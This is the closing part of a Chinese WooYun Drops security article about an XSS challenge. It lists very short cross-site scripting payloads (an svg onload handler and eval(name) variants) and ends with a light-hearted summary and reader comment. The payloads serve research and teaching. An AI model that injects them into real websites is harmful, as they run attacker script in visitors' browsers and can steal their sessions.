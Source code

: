 * * *

这个活动是国外一个网站发布的，名为 XSS challenge，大家有兴趣可以讨论一下 19 Letters

```
<x/x=&{eval(name)}; 
```

22 Letters

```
<svg/onload=eval(name) 
```

最短的 javascript 执行代码，考验你”短”的时候到了

```
10 Letters eval(name)
9 Letters eval(URL)
8 Letters URL=name
6 Letters $(URL) 
```

## 0x05 总结

* * *

Javascript 是一门很好玩的解释型语言，每次去研究这些 XSS 点的时候会有很多乐趣，你越不相信这个点有 XSS，那么就越要去研究这个点是否有 XSS。

其实呢~~~这些技术可以称为猥琐流。。。因为不是按正常的逻辑思维是想不到这些的，除非那些思想很猥琐的人。~~~~~~~

欢迎你加入猥琐这个团队，让我们一起猥琐吧。

**Tags:** [xss](http://drops.wooyun.org/tag/xss)

版权声明：未经授权禁止转载 [Crackkay](http://drops.wooyun.org/author/Crackkay "由 Crackkay 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [CVE-2012-0053 详解](http://drops.wooyun.org/papers/501)
*   [一次 SWF XSS 挖掘和利用](http://drops.wooyun.org/papers/44)
*   [闲扯下午引爆乌云社区“盗窃”乌云币事件](http://drops.wooyun.org/papers/382)
*   [Bypass IE XSS Filter](http://drops.wooyun.org/tips/159)
*   [Zmap 详细用户手册和 DDOS 的可行性](http://drops.wooyun.org/tools/515)
*   [OAuth 2.0 安全案例回顾](http://drops.wooyun.org/papers/598)

上一篇:[从哲学角度看渗透之关于渗透与高智商电影](http://drops.wooyun.org/tips/510)下一篇:[PHP 非字母数字の代码](http://drops.wooyun.org/tips/508)

### 楼被抢了 27 层了... 抢座、[Rss 2.0](http://drops.wooyun.org/papers/512/feed)或者 [Trackback](http://drops.wooyun.org/papers/512/trackback)

*   ![](img/img18_u16_jpg.jpg) 瞌睡龙 | 2013/08/21 12:24 | # 

    小伙子总结还不错哦~ :)
